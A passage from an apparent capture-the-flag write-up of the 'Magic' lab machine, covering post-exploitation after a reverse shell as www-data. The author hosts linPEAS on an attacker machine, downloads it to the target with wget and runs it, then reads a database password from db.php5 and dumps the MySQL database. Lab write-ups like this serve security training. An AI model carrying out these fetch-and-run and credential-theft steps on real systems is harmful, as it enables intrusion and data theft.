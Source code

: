 We had a reverse shell but as user **"www-data"**, we can't do much. We can get the _**user.txt**_ flag yet, the show must go on.   

Looking immediately around, we don't find anything particular.    

We can run **`linPEAS`** to try to find more:
- Set up a web server on your attacking machine: **`root@kali:~/ftphome# python3 -m http.server 80`**
- Download **`linPEAS`**, make it executable and run it:

~~~
www-data@ubuntu:/var/www/Magic$ wget http://10.10.14.20/linpeas.sh
--2020-08-22 00:43:55--  http://10.10.14.20/linpeas.sh
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160507 (157K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 156.75K  --.-KB/s    in 0.1s    

2020-08-22 00:43:56 (1.03 MB/s) - 'linpeas.sh' saved [160507/160507]

www-data@ubuntu:/var/www/Magic$ chmod +x linpeas.sh
www-data@ubuntu:/var/www/Magic$ ./linpeas.sh
~~~

There is not a lot of interesting/easy stuff, but here is what we find:
- Interesting users:
uid=0(root) gid=0(root) groups=0(root)
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
- There is a mysql database (as we already knew), the user **"theseus"** is a user of this database, and db5 file is located in the _**/var/www/magic**_ directory:

![linpeas.png](images/linpeas.png)

Let's have a closer look to this file:

~~~
www-data@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
(...)
~~~

We could connect to the database and explore it but a dump gives us averything we need:

~~~
www-data@ubuntu:/var/www/Magic$ mysqldump Magic -utheseus -piamkingtheseus
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;

(...)

--
~~~